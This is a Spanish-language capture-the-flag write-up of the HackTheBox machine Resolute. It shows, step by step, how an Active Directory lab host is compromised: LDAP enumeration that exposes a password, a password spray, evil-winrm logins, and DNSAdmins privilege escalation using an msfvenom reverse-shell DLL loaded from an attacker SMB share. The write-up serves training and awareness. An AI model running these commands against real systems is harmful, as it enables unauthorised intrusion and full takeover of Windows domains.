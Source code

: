 ```yaml
---
title: HTB Resolute Write-up (Español)
tags: [HackTheBox, Active Directory,DNSAdmins]
image: /assets/images/Resolute/1__50mbX____satzMUETrLrTh6w.png
published: true
banner: true
---
```


I cloned my writeup that was originally posted on [medium](https://medium.com/@5ubterranean/htb-resolute-write-up-espa%C3%B1ol-57ba05034b5b)

Resolute en una máquina basada en Windows que estuvo activa desde el 7 de Diciembre del 2019 hasta el 30 de mayo del 2020, en este caso empezaremos enumerando LDAP ya que nos encontramos en un ambiente con AD, el administrador de la red no parecía tener buenas prácticas y dejó una contraseña dentro del campo de descripción de uno de los usuarios, la contraseña no corresponde al usuario en el cual la encontramos por lo que hacemos una lista con todos los usuarios del dominio y usamos fuerza bruta, una vez tenemos el usuario correspondiente ya tenemos un acceso inicial a la máquina objetivo, mientras enumeramos la máquina nos encontramos con un script en powershell con la contraseña del usuario “ryan” adentro, aunque este se encontraba dentro unas carpetas ocultas, bueno no es que eso aumente la seguridad en algo, por último vemos que este usuario pertenece al grupo de “DNSAdmins”, esto es importante ya que nos permite hacer un estilo de DLL hijacking para elevar nuestros privilegios a System.

# Enumeración

Empezamos usando masscan para encontrar todos los puertos disponibles y luego usamos nmap para conseguir más información de los mismos.

```bash
masscan -e tun0 — rate=500 -p 0–65535 10.10.10.169  
nmap -sC -sV -p 139,59811,389,49666,49688,49664,49677,445,49676,49670,636,464,9389,53,593,47001,49667,88,49709,3269 -o scan.txt 10.10.10.169  
53/tcp    open   domain?  
| fingerprint-strings:   
|   DNSVersionBindReqTCP:   
|     version  
|\_    bind  
88/tcp    open   kerberos-sec Microsoft Windows Kerberos (server time: 2020-04-20 13:27:23Z)  
139/tcp   open   netbios-ssn  Microsoft Windows netbios-ssn  
389/tcp   open   ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)  
445/tcp   open   microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)  
464/tcp   open   kpasswd5?  
593/tcp   open   ncacn\_http   Microsoft Windows RPC over HTTP 1.0  
636/tcp   open   tcpwrapped  
3269/tcp  open   tcpwrapped  
9389/tcp  open   mc-nmf       .NET Message Framing  
47001/tcp open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
|\_http-server-header: Microsoft-HTTPAPI/2.0  
|\_http-title: Not Found  
49664/tcp open   msrpc        Microsoft Windows RPC  
49666/tcp open   msrpc        Microsoft Windows RPC  
49667/tcp open   msrpc        Microsoft Windows RPC  
49670/tcp open   msrpc        Microsoft Windows RPC  
49676/tcp open   ncacn\_http   Microsoft Windows RPC over HTTP 1.0  
49677/tcp open   msrpc        Microsoft Windows RPC  
49688/tcp open   msrpc        Microsoft Windows RPC  
49709/tcp open   msrpc        Microsoft Windows RPC
```

Como se ve tenemos muchos puertos abiertos, pero la información más importante la obtendremos de LDAP, para esto usaremos ldapsearch, empezamos haciendo una petición para obtener los naming contexts disponibles, principalmente buscamos el nombre del dominio, para esto usamos `ldapsearch -h 10.10.10.169 -x -s base namingcontexts`.

![](/assets/images/Resolute/1__xmDicKLQr7hTQKk____IW4mQ.png)


Ahora confirmamos los resulta de nmap, que nos dijo que el dominio era megabank.local, ahora podríamos extraer todas las unidades organizacionales y sus elementos usando `ldapsearch -h 10.10.10.169 -x -b “DC=megabank,DC=local”`, pero terminaría siendo más información de la que necesitamos, algunos administradores de red asumen que solo ellos tienen acceso a los elementos de las unidades organizacionales, pero esto es erróneo ya que como estas se replican entren los dominios, esta información también es replicada, asumiendo este caso buscamos el campo más común donde encontrar información la descripción de los usuarios, para esto usamos ldapsearch para extraer solo las uninades que sean de tipo usuario y filtramos para solo ver el campo de descripción, para hacer esto ejecutamos: `ldapsearch -h 10.10.10.169 -x -b “DC=megabank,DC=local” ‘(objectClass=user)’ | grep description`

![](/assets/images/Resolute/1__rravMMDxtFxsVqlrTQsLRg.png)


# Ganando acceso

Muy bien nuestra suposición fue correcta, el administrador dejó una contraseña ahí, en este caso es “Welcome123!”, lo primero que intentamos fue usar esta contraseña junto con el usuario cuyo campo de descripción la tenía, pero no tuvimos éxito, así ahora procedimos a crear una lista de todos los usuarios dentro del dominio, una vez más con ayuda de ldapsearch: `ldapsearch -h 10.10.10.169 -x -b “DC=megabank,DC=local” '(objectClass=user)' | grep “sAMAccountName” | awk '{print $2}' > userlist.txt`.  
Y ahora ya que el puerto de SMB se encuentra abierto podemos usar crackmapexec para hacer un ataque de fuerza bruta y encontrar el usuario a quien le pertenece esta contraseña, para esto usamos: `cme smb 10.10.10.169 -u userlist.txt -p 'Welcome123!'`.

![](/assets/images/Resolute/1__S84WWyrNbsluQcWgJfR3DA.png)


Bien el usuario a quien le pertenece la contraseña es “melanie”, ahora usamos evil-winrm para conseguir una shell en la máquina objetivo: `evil-winrm -i 10.10.10.169 -u melanie -p 'Welcome123!'`.

![](/assets/images/Resolute/1__Wlz1T7dFdtSyUeQHi98sZQ.png)


Y con esto hemos conseguido el “user.txt”.

# Movimiento lateral

Luego de usar los métodos básicos de enumeración (winpeas, revisar servicios, permisos, grupos, etc.) no encontramos nada útil, así que empezamos a buscar manualmente por información, y revisando el directorio raíz del disco local C, no encontramos con una carpeta oculta que llama nuestra atención (para listar archivos ocultos debemos usar el argumento -Force con Get-ChildItem), PSTranscripts.

![](/assets/images/Resolute/1__57iRWGsI64MvKgbkDJRblw.png)


Dentro de esa carpeta hay otra carpeta oculta llamada “20191203” y dentro de ella hay un script de powershell llamado “PowerShell\_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt”, dentro de este nos encontramos las credenciales del usuario “ryan”, parece que este quería automatizar algunas tareas, pero dejar tus credenciales en un archivo nunca es buena idea.

![](/assets/images/Resolute/1__k1DfsYze2mrxbdkLV4NV7Q.png)


Ya una vez con sus credenciales volvemos a usar evil-wirn para acceder como este usuario: `evil-winrm -i 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!'`.

![](/assets/images/Resolute/1__x8W0TMRyEdLQ94cHML2onQ.png)


# Escalación de privilegios

Enumerando un poco el usuario vemos que este pertenece al grupo “DNSAdmins”, y luego de googlear un poco descubrimos que existe una forma de escalar privilegios con este grupo, para lograrlo primero creamos un dll con msfvenom que ejecutará un reverse shell, para esto usamos el comando: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.64 LPORT=54321 -f dll -o plugin.dll`, sería más comodo subir nuestro dll a la máquina objetivo, pero esta cuenta con un antivirus que lo detecta y elimina rápidamente, así que creamos una carpeta compartida con ayuda de impacket, `sudo python3 smbserver.py share /home/subterranean/writeups/resolute -smb2support`, iniciamos nuestro listener `nc -lvp 54321`, y ejecutamos el comando que importará nuestro plugin, dentedrá e iniciará el servicio de DNS, `cmd /c “dnscmd resolute.megabank.local /config /serverlevelplugindll \\10.10.15.64\share\plugin.dll & sc stop dns & ping -n 10 127.0.0.1 & sc start dns”`. En este caso lo iniciamos con `cmd /c` porque nos escontramos en una shell de powershell, y se unen los comandos con “&” para ejecutar todo en un one liner, al ejecutar el comando veremos que nos llega una petición a nuestro servidor SMB.

![](/assets/images/Resolute/1__yqpDTHZqrGSTxEPrGW1Rkg.png)


Y luego se detiene y se inicia el servicio.

![](/assets/images/Resolute/1__OvB1YaofKEJqF9TMqVZQZg.png)
![](/assets/images/Resolute/1__3rtgYKmXjiRhqGuDRxbD3g.png)


Y luego de eso obtendremos nuestra shell.

![](/assets/images/Resolute/1__Rw80__0jw3aZovvYIuA6iBw.png)


Y listo, conseguimos lo permisos de “nt authority\\system” y terminamos con la máquina.

# Descargo de responsabilidad

Todos los recursos brindados en este post se hicieron puramente con fines educativos y de concientización, el autor no se hace responsable por las acciones que las personas puedan realizar con el contenido del mismo.